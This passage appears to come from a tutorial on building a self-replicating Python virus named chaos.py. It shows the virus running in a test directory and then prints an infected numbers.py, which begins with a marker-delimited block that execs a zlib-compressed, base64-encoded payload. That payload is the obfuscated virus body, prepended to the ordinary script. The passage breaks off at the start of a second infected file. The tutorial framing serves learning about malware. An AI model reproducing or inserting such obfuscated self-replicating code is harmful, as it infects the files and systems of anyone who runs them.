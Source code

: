 Now, let's try this new virus in another directory with the uninfected version of `[numbers.py](http://numbers.py)` and `[hello.py](http://hello.py)`, and let's see what happens.

```bash
/playgrounds/python/chaos ❯ python chaos.py                                                                            03:09:52 PM
We are sick, fucked up and complicated
We are chaos, we can't be cured
```

Executing the virus we have the same behavior as we had before, but our infected files are now a little different than before... This is `[numbers.py](http://numbers.py)` :

```bash
# begin-661bb45509227577d3693829a1e1cb33
exec("import zlib\nimport base64\nexec(zlib.decompress(base64.urlsafe_b64decode(b'eNqVWMty47oRXUtfgdALkxkNC2-AU-Uss8zqVmUxvsWiRNBmLJEqkhqPc-v-expAk5JsOZmoaqwHmo2Dfpw-mDtSWM6MWt-RrXtqu6_GuopZRRtpa7ZjlvJGWFtvLdOFbWq6XoOpKKhldh0-S8YMtev2cOyHiWyr0WkZFhjjtFDzwtO-38afjTF2-fm5Gp_3bVzRtDCsmFfabjy63RRWOKXMsnmlH-OP1moj5h-Hqqv7A6IT0sp54d-ze2WE0iyCVkxxIda1a8iTm8pd302um8q-KZt271L_J_sW4SpBpVyv6mqqyAP5R9-5uLtmUuo1gdcdGdx0GjoyPTuCrkjfkIp4PxESV0KJ9eq1nZ5Jf3Rd2GJDkiHJSDWSw1vY-BsaF5SB8bwnLuaDq-p927kxzYKdKYQymAUutdR2vUIk_kmMqTFw6FX4YgvOBf9w6rYp266BWFdbPPsm5AUjYFRhDf-Fk5K-27-RtiFtyGt3D-XgXEeic1eTNxfTWVhhuF1i-mkGcHsuaBFPWRjFqFqvmn4gPhLgOhw1ApVC2QLcrgCCx-9XvRVGVUtmC1idY7SkUiomuI47CKoKfiOO4FowtNFaWSZDGPvtuDsNLg0gyPZtcmNGvv4tfkJUWkhNMXxoDwEbJ0jnwQcv2EI0D8fBjWPbPfn4QTUT1-36Gr_DUS5aq2CSSht8ItC4mJ-G_Vg1rtxqGZ52qS__fHYecG5IkWXYoaLgGFoF4QGX_lAT9NIIIT6UgKJEyOWPdjiNZfB5_jiXCBdmKZHl8TGUSTAm3phUdTjO2B8c9mu7m8to3NwKASz-cMN0MwhCMs6hGDr3egEO6un773HdckPFdbGc7RC4VApSv3rnJK-O0KN1mtyR5ItPVRrh5v4N_j25lNHwyrIvJHnskrlWNYXK-MxdQHFpr5meGUly4DMoPAx3fX2kuc5CraRJkv-rb7v0epdsQ-5PU_PV3mN6_dEKs9TyDc-RFXShgKdjRUjKIKa-CpoWku_bcCynHgkirdsB3vrhDTAleTJzJMwLINzVXXiI9JD2ITCCr4BqIruqI8feZ7mt9kARW3fmBEwVcJlekH4PbOLzFj5A3vz0yP2fNPlrfnxLsphiXTAuJXIDDDLDAvTxdDj0Xbl7rnrgSsTIgf2ox3guymP1tu-rOsafSuUhHIe2m9Lkn1Ct0Kdju3vZkOa0ewGopyPW5OG4b3cVoH_s0C5stSGvzp818B4JscY8c8qNwT4TnsQCTIxpJNwPPWW14L4g7tDOcwb0gQ-MHwbkNzjG0J8mX1N-ooRzhXh5kIGF70fS9TdIeDO7XB4Jc6kCzOPUHwi03Nj2nSen6w5e5i4EKjDswzzA80Otwkly5J0klGKSZfmz-1m3T26ccGzJAgTAzDpUURAfnrEjhz780mDCEBUm0ODqk6b5f3gMBwFgAzQrWKj25Y9Q6r7S3U-3Sx-TC0Xx-NhdKR74HowC3dZuIdyPvOwXfXy-eFq5ATz7AkHLHpMswd6ygvMYLaNBwHi2-iAjXqOMmJN8KSYol9yLidXVYv46tBOgeOxm4QdEF1Ia-QneroIQfr2DkVR_9WsXlljhShf0s22iaPH5RWPGKGDC1rBnRXKRG0wxjCXOlO-CpcYhYIPXHUutR9Z4P202kXvaEcUKlMTWTa8ueon0oZjhxjuPIfjDH-vP4NM_4w-LP03VUxSdoIKDHDwjLaFRHsjfq_2IdKqoFvbS4jySNKUwZbH0DVfSzHY3uqkf82M1Pee-hLrq4NIyhLQss__dYwyo0ADb4fa3FNbiLSITwOCob2Ag-KRcDc7zyPQsy1BlJUvxxHqZD3IlvCSMFyDm1epD0H4bTg4FIehBpARNrZXo_-qBbwhUKiqvvX06X5lmBc5XYaURZ9hzIX8GGsYRC1TwXzLN4XJUBChb0HIv8Tl4jOGWhQLlrJap9m7sGg4yn2ItgHY32BAwTGW4j0GyYM4eYdBPs1iwVMwpYoWSazDANqFwOOYrGTYbWvfDvddezQDEftk-y0AYd0N7xHuWUSCw39Xu-8ZEWhFUY8ZAkrPYRvu-fwlz-0oC9LhXRGotU6jK5ul-U2rMBGAZ12Y988rHaRnjYUWh8CoEMkoY7eHsQG2EM18OemWVgdCtrkUCyoliuSFyuFwptXY_d-44oYSAIlUA5ViNSAZFAZSMydb-6rCGo3iJs1xImA7kVbu9mxw5jRBv38tjzMfBHUBLxefhymdpjEsbaxG62UseqLc0y1_cG7xhUODGziSk2wvutknb7_R38pcHcl_enxUZj8v-FSbTPWAgf_x5n_uJWE1piyoRigrcoQilBlQHXMzAtJ3litZ2vjRrDjeZ2Dy_8P8E_wH6PJBm')))")
# end-661bb45509227577d3693829a1e1cb33
# numbers.py

import random

random.seed()

for _ in range(10):
  print (random.randint(0,100))
```

and this is 

```bash
# begin-8d35108ffe2ad173a697734a3e9938e1
```